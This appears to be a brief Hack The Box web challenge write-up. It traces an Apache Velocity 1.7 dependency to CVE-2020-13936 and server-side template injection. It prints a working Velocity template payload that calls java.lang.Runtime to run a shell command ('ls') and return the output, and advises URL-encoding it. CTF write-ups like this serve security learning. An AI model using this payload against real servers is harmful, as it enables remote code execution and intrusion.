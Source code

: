 
2024-12-21 00:09

Source: #htb #web 

in the challenge description we find a `pom.xml`, This is an XML file containing a list of dependencies, plugins, etc. that the server uses.

I find out that the last dependency on this list — Apache Velocity Engine 1.7 — is affected by [CVE-2020–13936](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13936). This makes the web application vulnerable to **server side template injection** [[SSTI]].

Since we are dealing with an Apache web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`

Now, we need to include a payload in the text that will give us our flag. We’ll read up a bit on Velocity 1.7 first — here is the official documentation — [https://velocity.apache.org/engine/1.7/user-guide.html](https://velocity.apache.org/engine/1.7/user-guide.html).

Now, I’ll include a payload which I found [here](https://gosecure.github.io/template-injection-workshop/#6).

```js
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
url encode the payload 


### References
https://medium.com/@rahulhoysala07/hack-the-box-web-challenge-labyrinth-linguist-a67d5005abe0